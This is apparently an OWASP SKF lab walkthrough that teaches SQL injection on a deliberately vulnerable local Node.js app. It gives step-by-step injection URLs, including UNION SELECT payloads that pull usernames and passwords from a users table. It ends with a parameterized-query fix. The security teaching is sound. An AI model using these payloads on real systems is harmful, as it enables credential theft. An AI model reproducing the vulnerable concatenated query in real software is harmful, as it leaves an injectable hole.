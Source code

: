 # SQLI

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:js-sqli
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:js-sqli
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

### Step1

The first step is to identify parameters which could be potentially used in an SQL query to communicate with the underlying database. In this example we find that the "/home" method grabs data by pageID and displays the content.

![](../../.gitbook/assets/nodejs/SQLI/1.png)

```text
http://localhost:5000/home/1
```

### Step2

Now let's see if we can create an error by injecting a single quote

![](../../.gitbook/assets/nodejs/SQLI/2.png)

```text
http://localhost:5000/home/1'
```

By doing so the SQL query syntax is now faulty. This is due to the fact that the user supplied input is being directly concatenated into the SQL query.

```javascript
db.get(
  "SELECT pageId, title, content FROM pages WHERE pageId=" + req.params.pageId
);
```

### Step3

Now we can also use logical operators to determine whether we can actually manipulate the SQL statements.

We start with a logical operator which is false \(and 1=2\). The expected behaviour for injecting a false logical operator would be an error or 404.

![](../../.gitbook/assets/nodejs/SQLI/3.png)

```text
http://localhost:5000/home/1 and 1=2
```

After that we inject a logical operator which is true \(and 1=1\). This should result in the application run as intended without errors.

![](../../.gitbook/assets/nodejs/SQLI/4.png)

```text
http://localhost:5000/home/1 and 1=1
```

## Exploitation

Now that we know that the application is vulnerable for SQL injections we are going to use this vulnerability to read sensitive information from the database. This process could be automated with tools such as SQLMAP. However, for this example let's try to exploit the SQL injection manually.

### Step1

The UNION operator is used in SQL injections to join a query, purposely forged to the original query. This allows to obtain the values of columns of other tables. First we need to determine the number of columns used by the original query. We can do this by trial and error.

![](../../.gitbook/assets/nodejs/SQLI/5.png)

```text
http://localhost:5000/home/1 union select 1
```

This query results in an error, this is due to the fact that the original query started with 3 columns namely  
\* pageId  
\* title  
\* content

![](../../.gitbook/assets/nodejs/SQLI/6.png)

```text
http://localhost:5000/home/1 union select 1,2,3
```

Notice how "title" and "content" became placeholders for data we want to retrieve from the database

### Step 2

Now that we determined the number of columns we need to take an educated guess for the table we want to steal sensitive information from. Again we can see if we try to query a non existent table we get an error. For a correct table we see the application function as intended.

![](../../.gitbook/assets/nodejs/SQLI/7.png)

```text
http://localhost:5000/home/1 union select 1,2,3 from user
```

![](../../.gitbook/assets/nodejs/SQLI/8.png)

```text
http://localhost:5000/home/1 union select 1,2,3 from users
```

![](../../.gitbook/assets/nodejs/SQLI/9.png)

```text
http://localhost:5000/home/1 union select 1,username,password from users
```

## Mitigation

SQL Injection can be prevented by following the methods described below:

Primary Defenses:

First step: White-list Input Validation\
Second step: Use of Prepared Statements (Parameterized Queries)\

Additional Defenses:

Also: Enforcing Least Privilege\
Also: Performing Allow-list Input Validation as a Secondary Defense

In this case, we have presented a SQLi code fix by using parameterized queries (also known as prepared statements) instead of string concatenation within the query.

The following code is vulnerable to SQL injection as the user input is directly concatenated into query without any form of validation:

```javascript
db.get(
  "SELECT pageId, title, content FROM pages WHERE pageId=" + req.params.pageId
);
```

This code can be easily rewritten in a way that prevent the user input from interfering with the query structure:

```javascript
db.get("SELECT pageId, title, content FROM pages WHERE pageId=?", [
  req.params.pageId,
]);
```

Can you try to implement input validation or escaping?

## Additional sources

Please refer to the OWASP testing guide for a full complete description about SQL injection with all the edge cases over different platforms!

{% embed url="https://owasp.org/www-community/attacks/SQL_Injection" %}

SQLite Reference

{% embed url="https://www.sqlitetutorial.net/sqlite-nodejs/query/" %}
